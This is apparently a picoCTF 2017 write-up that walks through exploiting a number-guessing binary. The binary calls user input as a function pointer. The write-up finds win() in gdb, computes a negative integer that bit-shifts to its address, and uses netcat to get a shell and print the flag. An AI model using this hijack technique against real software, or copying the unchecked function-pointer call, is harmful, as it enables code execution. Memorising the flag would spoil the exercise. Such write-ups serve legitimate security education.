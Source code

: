 # Guess the Number
#### Writeup by Valar_Dragon
* **Binary Exploitation**
* *75 points*
* Description: Just a simple number-guessing game. How hard could it be? [Binary](guess_num) [Source](guess_num.c). Connect on shell2017.picoctf.com:49258.

Lets start by looking at the source code of this program!
```c
/* How well do you know your numbers? */

#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

void win(void) {
    printf("Congratulations! Have a shell:\n");
    system("/bin/sh -i");
}

int main(int argc, char **argv) {
    uintptr_t val;
    char buf[32] = "";

    /* Turn off buffering so we can see output right away */
    setbuf(stdout, NULL);

    printf("Welcome to the number guessing game!\n");
    printf("I'm thinking of a number. Can you guess it?\n");
    printf("Guess right and you get a shell!\n");

    printf("Enter your number: ");
    scanf("%32s", buf);
    val = strtol(buf, NULL, 10);

    printf("You entered %d. Let's see if it was right...\n", val);

    val >>= 4;
    ((void (*)(void))val)();
}
```
So it looks like we need to exploit `((void (*)(void))val)();` ,  since strtol is a secure way to copy the input.

`((void (*)(void))val)();` essentially means execute the void function located at memory address val. In our case, the function we want to execute is win, so we need to get its memory address from the Binary

To do this:
```
$ gdb ./guess_num
GNU gdb (Ubuntu 7.7.1-0ubuntu5~14.04.2) 7.7.1
Copyright (C) 2014 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later
-snip-
Reading symbols from ./guess_num...(no debugging symbols found)...done.
(gdb) p win
$1 = {<text variable, no debug info>} 0x804852b <win>
```
The memory address we want is `0x804852b`, which is our final value of val.
The value for val we need inputted is

$$ 0x804852b << 4 $$
which is 2152223408.
If we try to enter that into the netcat session we get:
```
$ nc shell2017.picoctf.com 49258
Welcome to the number guessing game!
I'm thinking of a number. Can you guess it?
Guess right and you get a shell!
Enter your number: 2152223408
You entered 2147483647. Let's see if it was right...
```

2152223408 overflowed into 2147483647 (2**31 -1)! Its too big for a signed int! Lets look at the binary of 2152223408

`10000000010010000101001010110000`
The leading digit being a 1 means the number is negative in C. But that doesn't matter to us, as val is being bit shifted by 4 to the right, so that negative sign will go away! We just need to figure out what signed int in C has that binary. Negative numbers in C are `-2**31 + (remaining binary)`. The remaining binary is `10010000101001010110000` which is 4739760.

Thus the number we are looking for is $-2142743888$, because that will bitshift to 0x804852b, which is what we are looking for!

Trying that:

```
$ nc shell2017.picoctf.com 49258
Welcome to the number guessing game!
I'm thinking of a number. Can you guess it?
Guess right and you get a shell!
Enter your number: -2142743888
You entered -2142743888. Let's see if it was right...
Congratulations! Have a shell:
/bin/sh: 0: can't access tty; job control turned off
$ echo "W00T We got Shell!"
W00T We got Shell!
$ ls      
flag.txt
guess_num
xinetd_wrapper.sh
$ cat flag.txt
f2892be47d731c96e753d14c913fd757
```
